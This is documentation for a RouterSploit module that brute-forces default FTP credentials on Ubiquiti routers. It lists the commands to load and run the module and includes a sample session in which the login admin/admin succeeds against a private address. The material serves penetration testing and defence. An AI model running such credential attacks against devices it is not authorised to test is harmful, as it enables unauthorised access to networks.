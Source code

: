 ## Description

Module performs dictionary attack with default credentials against Ubiquiti Router FTP service.
If valid credentials are found, they are displayed to the user.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use creds/routers/ubiquiti/ftp_default_creds`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If valid credentials are found, they are displayed to the user.

## Scenarios

```
rsf > use creds/routers/ubiquiti/ftp_default_creds
rsf (Ubiquiti Router Default FTP Creds) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Ubiquiti Router Default FTP Creds) > run
[*] Running module...
[*] Target exposes FTP service
[*] Starting attack against FTP service
[*] thread-0 thread is starting...
[-] Authentication Failed - Username: 'admin' Password: '12345'
[-] Authentication Failed - Username: 'admin' Password: '123456'
[-] Authentication Failed - Username: 'Admin' Password: '12345'
[-] Authentication Failed - Username: 'Admin' Password: '123456'
[+] Authenticated Succeed - Username: 'admin' Password: 'admin'
[*] thread-0 thread is terminated.
[*] Elapsed time: 0.06290411949157715 seconds
[+] Credentials found!

   Target          Port     Service     Username     Password
   ------          ----     -------     --------     --------
   192.168.1.1     21       ftp         admin        admin 

```
